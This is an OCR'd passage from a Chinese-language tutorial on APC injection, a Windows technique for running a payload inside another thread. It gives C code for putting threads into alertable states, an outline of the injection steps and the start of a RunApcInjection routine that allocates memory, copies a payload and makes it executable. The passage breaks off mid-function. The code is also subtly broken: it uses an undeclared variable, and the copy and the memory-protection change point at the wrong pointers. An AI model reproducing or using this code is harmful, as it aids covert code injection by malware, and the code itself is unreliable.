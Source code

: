 ```
}
}
```  
### 使⽤MsgWaitForMultipleObjects  
```
VOID AlertableFunction4() {
HANDLE hEvent = CreateEvent(NULL, NULL, NULL, NULL);
if (hEvent) {
MsgWaitForMultipleObjects(1, &hEvent, TRUE, INFINITE, QS_INPUT);
CloseHandle(hEvent);
}
}
```  
### 使⽤SignalObjectAndWait  
```
VOID AlertableFunction5() {
HANDLE hEvent1 = CreateEvent(NULL, NULL, NULL, NULL);
HANDLE hEvent2 = CreateEvent(NULL, NULL, NULL, NULL);
if (hEvent1 && hEvent2) {
SignalObjectAndWait(hEvent1, hEvent2, INFINITE, TRUE);
CloseHandle(hEvent1);
CloseHandle(hEvent2);
}
}
```  
### 暂停线程  
  
QueueUserAPC如果⽬标线程是在挂起状态下创建的，则也可以成功。如果使⽤此⽅法来执⾏有  
  
效负载，QueueUserAPC 则应⾸先调⽤该⽅法，然后恢复挂起的线程。  
  
同样，线程必须在挂起状态下创建，挂起现有线程将不起作⽤。  
### APC注⼊实现逻辑  
  
总结⼀下，实现逻辑如下：  
1. ⾸先，创建⼀个运⾏前⾯提到的函数之⼀的线程，将其置于可警报状态。  
  
1. 将有效载荷注⼊内存。  
  
1. 线程句柄和有效载荷基址将作为输⼊参数传递给QueueUserAPC。  
  
### APC 注射  
  
RunApcInjection是⼀个执⾏ APC 注⼊的函数，需要 3 个参数：  
- hThread- 可警告或暂停线程的句柄。  
  
- pPayload- 指向有效载荷基地址的指针。  
  
- sPayloadSize- 有效载荷的⼤⼩。  
  
```
BOOL RunApcInjection(IN HANDLE hThread, IN PBYTE pPayload, IN SIZE_T sPayl
oadSize) {
PVOID payloadAddress = NULL;
DWORD dwOldProtection = NULL;
pAddress = VirtualAlloc(NULL, sPayloadSize, MEM_COMMIT | MEM_RESERVE, PA
GE_READWRITE);
if (pAddress == NULL) {
return FALSE;
}
memcpy(pAddress, payloadAddress, sPayloadSize);
if (!VirtualProtect(payloadAddress, sPayloadSize, PAGE_EXECUTE_READWRIT
E, &dwOldProtection)) {
return FALSE;
}
```